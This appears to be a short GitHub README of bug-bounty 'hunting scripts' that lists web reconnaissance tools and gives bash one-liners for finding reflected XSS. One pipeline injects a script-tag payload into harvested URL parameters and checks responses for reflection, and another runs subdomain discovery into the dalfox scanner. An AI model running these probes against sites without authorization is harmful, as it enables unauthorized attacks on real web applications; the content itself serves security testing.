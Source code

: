 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf

https://github.com/tomnomnom/waybackurls

https://github.com/lc/gau

https://github.com/tomnomnom/qsreplace

https://github.com/projectdiscovery/httpx

https://github.com/tomnomnom/httprobe

https://github.com/tomnomnom/anew

https://github.com/devanshbatham/ParamSpider

https://github.com/hahwul/dalfox

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat domains.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host" ; done
```

## Find and testing XSS with Dalfox

```bash
subfinder -d domain.com -o subdomains && httpx -l subdomains -o sites && cat sites | dalfox pipe -F
```
